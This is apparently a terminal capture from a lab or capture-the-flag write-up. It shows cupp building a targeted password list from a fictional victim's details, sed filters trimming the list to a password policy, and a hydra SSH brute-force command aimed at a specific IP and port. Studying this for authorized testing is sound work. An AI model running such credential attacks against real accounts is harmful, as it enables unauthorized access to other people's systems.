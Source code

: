 ```
┌──(kali㉿kali)-[~/username-anarchy]
└─$ cupp -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Harry
> Surname: Potter
> Nickname: 
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: n  
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: n

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to harry.txt, counting 2870 words.
[+] Now load your pistolero with harry.txt and shoot! Good luck!

┌──(kali㉿kali)-[~/username-anarchy]
└─$ sed -ri '/[0-9]+/!d' harry.txt                             

┌──(kali㉿kali)-[~/username-anarchy]
└─$ sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt

┌──(kali㉿kali)-[~/username-anarchy]
└─$ sed -ri '/^.{,7}$/d' harry.txt                             

┌──(kali㉿kali)-[~/username-anarchy]
└─$ wc harry.txt                                                          
 77  78 883 harry.txt
 
┌──(kali㉿kali)-[~/username-anarchy]
└─$ hydra -L potter.txt -P harry.txt -u -f ssh://206.189.25.173:32229 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```